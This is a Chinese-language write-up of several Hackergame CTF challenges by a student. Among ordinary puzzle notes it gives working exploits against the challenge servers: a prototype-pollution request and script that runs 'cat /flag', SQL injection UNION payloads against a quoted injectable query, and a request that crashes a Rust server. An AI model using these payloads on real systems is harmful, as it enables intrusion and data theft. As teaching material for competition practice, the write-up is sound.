





# Ethan's Write-Up

> [!NOTE]
>
> 前言：笔者是比赛周期中考试的高二菜鸡，因此只参加了 24 小时的 Hackergame，因此并没有做出多少题目

## 签到

签到题应该算是简单的。打开控制台，看到是 `inputs-container` 组件，于是 `querySelectorAll('*')` 一下，就差不多了。

```js
document.getElementById('inputs-container').querySelectorAll('*').forEach(x => x.value = x.placeholder.includes(':') ? x.placeholder.split(': ')[1] : x.placeholder.split('：')[1])
```

然后就「等不及了，马上启动！」

## 喜欢做签到题的 CTFer 们大家好啊

> 有一个问题，就是最开始开代理时无法访问

Google 搜了好久，找到链接：https://github.com/Nebula-CTFTeam/.github。点击去链接，习惯性 `help`，一个个试，到 `env` 就出来了第一个 Flag：



然后点到 `source` 控制台，点开 Network，找到了 `env` 命令的后台代码（其实是疯狂找源代码里的 `flag`）



然后找到第一个发现是 `base64` 编码的，后面一个又找了找就来了。

## 打不开的盒

Xcode 打开看了看就搞定了



## 每日论文太多了！

点进论文，直接搜 `flag` 结果找到东西：



找到那里，然后把东西滑下来，搞定。



> 这下知道怎么论文藏私货了

## 比大小王

发现 `state` 全局变量，本来篡改 score1 以为可以了，结果「非法提交」。

于是只能当人机了：

```js
state.inputs = state.values.filter((_, idx) => idx !== 99).map(x => x[0] < x[1] ? '<' : '>')
state.score1 = 99
chooseAnswer(state.values[99][0] < state.values[99][1] ? '<' : '>')
```

可是还是让小孩哥写了几道题……

## Node.js is Web Scale

目标是执行 `cat /flag` 命令，因此简单看一下。直接 `__proto__.evil` 就可以了。

```http
POST /set
Content-Type: application/json

{
    "key": "__proto__.evil",
    "value": "cat /flag" 
}
```

然后简单的 `execulate` 一下，即可。懒得手写代码，让 `Claude` 写一下：

```js
async function pollute(cmd) {
    const res = await fetch('/set', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            key: '__proto__.evil',
            value: cmd
        })
    });
    return await res.text();
}

async function execute() {
    const res = await fetch('/execute?cmd=evil');
    return await res.text();
}

async function check() {
    const res = await fetch('/get?key=__proto__');
    return await res.text();
}

// One-liner exploit function
async function pwn(cmd) {
    console.log('[+] Polluting with command:', cmd);
    await pollute(cmd);
    console.log('[+] Checking pollution:');
    console.log(await check());
    console.log('[+] Executing:');
    console.log(await execute());
}

pwn('cat /flag')
```

## PaoluGPT

典型的数据库注入题目。

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

用 `f-string` 于 SQL 也是逆天。

### 千里挑一

```sql
' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%' --
```

然后翻到页底就找到了

### 发现未知

```sql
1' UNION SELECT id, title FROM messages WHERE shown = false AND (title LIKE '%flag{%' OR contents LIKE '%flag{%') --
```

## 惜字如金 3.0

### A

发给 Claude 解决了

## 优雅的不等式

### Easy

发现
$$
\int_0^1\dfrac{4}{1+x^2}=\int_0^14\sqrt{1-x^2}=\pi
$$
因此，直接 $\dfrac{4}{1+x^2}-\dfrac{14}{3}+4x$ 即可。

## 动画分享

### 只要不停下 HTTP 服务，响应就会不断延伸

作为一个 [Rustacean](https://github.com/7086cmd)，自然看到最容易 `panic` 的不是 `unwrap`，而是：

```rust
let your_string = "😅"
println!("{}", your_string[1..])
```

这下就 panic 了！

```http
GET 😅 HTTP/1.1
```

## 禁止内卷

看到 `os.path.join`，伪造一个文件即可（代码学校写的）。
